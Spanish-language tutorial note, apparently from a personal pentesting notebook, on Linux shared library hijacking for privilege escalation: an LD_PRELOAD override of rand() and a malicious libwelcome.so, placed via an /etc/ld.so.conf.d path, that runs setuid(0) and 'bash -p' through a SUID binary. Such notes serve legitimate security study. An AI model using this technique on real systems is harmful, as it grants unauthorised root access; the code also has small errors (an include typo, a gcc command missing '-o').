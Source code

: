 ----
- Tags: #escalada #teoria #practica 
---

# Secuestro de la biblioteca de objetos compartidos enlazados dinámicamente

### Las **bibliotecas compartidas** son archivos que contiene funciones y recursos utilizados por múltiples programas. Cuando un programa requiere una función de una biblioteca compartida, el sistema operativo busca la biblioteca y enlaza dinámica mente la función requerida durante la ejecución del programa. Sin embargo, si el sistema no encuentra la biblioteca en las rutas predeterminadas, puede buscarla en otros directorios. 

### Un atacante puede aprovechar esta situación creando una **biblioteca compartida maliciosa** con el mismo nombre que la biblioteca legítima y colocándola en un directorio donde el sistema la buscará. Cuando el programa intenta cargar la biblioteca, el sistema cargara la versión malicioso en lugar de la legítima, permitiendo al atacante ejecutar código malicioso con los privilegios del programa víctima. 

# Escalada 

### Para ver las funciones que se usan en un script de una biblioteca de objetos compartida podríamos hacer uso del comando **ldd** o de de un script llamado [uftrace](https://github.com/namhyung/uftrace) para leer las mismas...

```bash 
ldd {binary}

uftrace --force -a {binary}
```

### Una vez que tengamos las funciones que se usan, por ejemplo del script: 

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

int main(int argc, char const *argv[]){
    srand(time(NULL));
    printf("%d\n", rand());
    return 0; 
}
```

```bash
uftrace --force -a {binary}
# 1838698392
# DURATION     TID     FUNCTION
#   5.840 us [110824] | time();
#   1.308 us [110824] | srand();
#   0.433 us [110824] | rand();
# 206.138 us [110824] | printf("%d\n") = 11;
```

### Vemos que se nos listan las funciones utilizadas en el script, por lo que ahora intentando realizar un secuestro de la biblioteca de objetos compartidos enlazados dinámicamente podríamos replicar la función *"rand"* que se usa en el script para realizar un código que nos interese. 

### Por lo que para poder realizar esta "suplantación" de función, las firmas deben coincidir (Las firmas son el conjunto de lo que la función **retorna**, como se **llama** y los **argumentos** que recibe)

### Es decir, a la hora de ejecutar el binario, por detrás el enlazador dinámico  por detrás carga las bibliotecas compartidas necesarias para que este programa funcione correctamente, ahora, este enlazador dinámico lo que hace es tomar como prioritario una **variable de entorno** llamada **LD_PRELOAD**, por lo que si esta variable lo igualamos a un binario de una biblioteca compartida que hayamos creado previamente, podríamos manipular el código para que se ejecute las instrucciones que quisiéramos.

```c
int rand(void){
	return 777; 
}
```

### Una vez creado el código malicioso (En este ejemplo alteramos el binario original para que en lugar de retornar un número random retorne siempre *777*) simplemente falta compilarlo como **biblioteca compartida** con el comando **gcc -shared -fPIC {file.c} -o {binary_name}** y exportar la variable de entorno. 

```bash
gcc -shared -fPIC malicious.c -o randomname 

LD_PRELOAD=randomname ./{binary}
```

---

### Otro ejemplo un poco más complejo es el siguiente. 

### Tenemos un binario en la ruta **/usr/bin/welcome** el cual no se puede ejecutar por un error y es SUID. El error que nos tira es *"libwelcome.so: cannot open shared object file: No such file or directory"*. 

### En este caso si jugamos con **ldd /usr/bin/welcome** nos devuelve **libwelcome.so => not found** y en este caso si intentamos explotar este secuestro de la biblioteca con con la variable *LD_PRELOAD* no va a funcionar.

### En estas ocasiones tenemos otras vías, la primera, es ver si tenemos permisos de escritura en la ruta **/etc/ld.so.conf.d** para crear una archivo de configuración para indicar a que ruta tiene que ir el binario para encontrar la biblioteca en cuestión. También podemos ver a que rutas se dirige a la hora de buscar dicho recurso en las configuraciones. 

### En el ejemplo dado, el binario nos arroja error dado que no encuentra la ruta, por lo que vemos que dentro de la ruta **/etc/ld.so.conf.d** existe un archivo de configuración llamado *custom.conf* el cual contiene una ruta inexistente como "*/home/dobliuw/lib*", pero en el home del user dobliuw no existe la carpeta *lib*, por lo que podríamos crear la carpeta y así mismo el script en c malicioso para **convertirlo** en una **biblioteca compartida**. 

```bash
cd /home/dobliuw 

mkdir lib 

cd !$ 

nano malicious.c 
```

#### malicious.c 
```c
#inlcude <stdio.h> 
#include <unistd.h>

int welcome(){
	setuid(0);
	setgid(0);
	system("bash -p");
	return 0;
}
```
#### PD: La función se llama welcome ya que podríamos ponerle un nombre típico como main y al compilar el binario como biblioteca compartida y ejecutar el binario inicial nos arrojaría un warning de que no se encuentra la función "welcome" de la librería, por lo que nos da a entender que la función que se usa es welcome. 

### Ahora solo quedaría convertir dicho script en un binario de **biblioteca compartida** con `gcc -shared -fPIC malicious.c libwelcome.so`. 

### Por lo que ahora al ejecutar el binario inicial (*/usr/bin/welcome*) al contener permisos SUID y habiendo *secuestrado la biblioteca de objetos compartidos enlazados dinámicamente* con un script el cual setea el uid en 0 para asegurarnos ser root nos lanzaría una consola privilegiada como root. 



